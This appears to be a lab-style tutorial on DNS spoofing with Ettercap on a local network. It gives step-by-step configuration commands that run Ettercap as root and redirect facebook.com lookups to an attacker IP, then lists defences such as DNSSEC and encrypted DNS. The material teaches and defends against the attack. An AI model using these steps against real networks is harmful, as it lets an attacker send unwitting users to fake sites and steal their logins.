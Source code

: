 # DNS Spoofing Attack

## What is DNS Spoofing?

DNS Spoofing (also known as DNS cache poisoning) is an attack where a
malicious actor redirects a victim's DNS requests to a fake or
unintended server. This can trick users into visiting fraudulent
websites instead of legitimate ones.

* **DHCP Server IP Address:** 192.168.1.1
* **Attacker IP Address:** 192.168.1.8

## How the Attack Works

1.  First edit the Ettercap configuration file.

     ```bash
     gedit /etc/ettercap/etter.conf 
     ```

2.  Change the UID and GID values at the top to make them say 0.

     ```bash
     ec_uid = 0
     ec_gid = 0 
     ```
  

3. Now scroll down until you find the heading that says Linux and under that remove both the # 
signs below where it is redir_command_on

4. Configure another ettercap file called etter.dns
     ```bash
     leafpad /etc/ettercap/etter.dns
     ```
5. Add the domain names you would like to redirect to your local server
     ```bash
     www.facebook.com A 192.168.1.8
     *.facebook.com A 192.168.1.8
     ```

6. Now open up ettercap and start the attack.
      ```bash
     ettercap -G
     ```


## What Happens to the Victim

-   The victim attempts to access a legitimate domain (e.g.,
    `facebook.com`).\
-   Instead of being sent to the correct IP, DNS resolves it to the
    attacker's IP.\
-   The victim unknowingly lands on a malicious server or fake website.

------------------------------------------------------------------------

## Defensive Measures

To protect against DNS spoofing attacks:

1.  **Use DNSSEC** -- Ensures authenticity of DNS responses.\
2.  **Enable ARP Inspection / Dynamic ARP Inspection (DAI)** -- Prevents
    ARP poisoning on switches.\
3.  **Deploy IDS/IPS Systems** -- Detects and blocks suspicious DNS and
    ARP traffic.\
4.  **Use Encrypted DNS (DoH or DoT)** -- Protects DNS queries from
    tampering.\
5.  **Monitor DNS Logs** -- Detect anomalies in query patterns and
    unexpected redirects.\
6.  **Keep Systems Patched** -- Regularly update networking and
    DNS-related software.

------------------------------------------------------------------------

## Summary

DNS spoofing can be highly deceptive, redirecting users to malicious
websites even if they type the correct domain. Awareness, monitoring,
and the use of secure DNS mechanisms are critical to preventing such
attacks.
